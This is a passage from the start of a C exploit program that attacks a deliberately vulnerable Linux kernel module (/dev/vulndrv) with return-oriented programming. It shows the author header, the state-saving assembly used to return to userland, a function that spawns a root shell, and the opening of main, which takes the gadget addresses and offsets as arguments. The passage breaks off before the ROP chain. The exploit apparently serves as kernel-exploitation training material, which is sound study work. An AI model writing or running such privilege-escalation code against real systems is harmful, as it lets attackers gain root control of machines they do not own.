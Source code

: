   ```c
  /** 
   * ROP exploit for drv.c kernel module
   *
   * gcc rop_exploit.c -O2 -o rop_exploit
   *
   * Email: vnik@cyseclabs.com
   * Vitaly Nikolenko
   */

  #define _GNU_SOURCE
  #include <sys/types.h>
  #include <sys/stat.h>
  #include <fcntl.h>
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <unistd.h>
  #include <errno.h>
  #include <sys/mman.h>
  #include <assert.h>
  #include "drv.h"

  #define DEVICE_PATH "/dev/vulndrv"

  unsigned long user_cs;
  unsigned long user_ss;
  unsigned long user_rflags;

  static void save_state() {
    asm(
    "movq %%cs, %0\n"
    "movq %%ss, %1\n"
    "pushfq\n"
    "popq %2\n"
    : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory" 		);
  }

  void shell(void) {
    if(!getuid()) { // mean rooted
      system("/bin/sh");
    }

    exit(0);
  }

  void usage(char *bin_name) {
    fprintf(stderr, "%s array_base_address_hex array_offset_decimal ret_inst_operand_hex \n", bin_name);
  }

  int main(int argc, char *argv[])
  {
    int fd;
    struct drv_req req;
    void *mapped, *temp_stack;
    unsigned long base_addr, stack_addr, mmap_addr, *fake_stack;
    unsigned long ret_inst_operand;

    if (argc != 4) {
      usage(argv[0]);
      return -1;
    }

  ```